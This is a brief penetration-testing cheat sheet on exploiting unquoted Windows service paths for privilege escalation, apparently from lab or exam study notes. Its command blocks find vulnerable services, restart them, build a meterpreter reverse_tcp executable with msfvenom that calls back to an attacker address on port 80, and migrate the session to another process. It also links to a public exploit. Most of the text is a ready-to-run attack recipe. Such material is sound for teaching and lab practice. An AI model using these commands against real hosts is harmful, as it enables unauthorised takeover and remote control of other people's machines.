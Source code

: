 # Unquoted Service Paths

Check for vulnerable services

```
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

If using PowerUp.ps1, make sure `CanRestart` field is `True` for the vulnerable service.

If the service can be restarted, check if we can write to the service path.

Create a payload and restart the service / reboot the host. To restart the service, use either of the following command line tools.

```
net stop/start <ServiceName>
sc stop/start <ServiceName>
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.189 LPORT=80 EXITFUNC=thread -f exe -o Iperius.exe
```

Start multi handler and migrate to new process (meterpreter)

```
run post/windows/manage/migrate
```

Here's a good example to follow: [https://www.exploit-db.com/exploits/48543](https://www.exploit-db.com/exploits/48543)
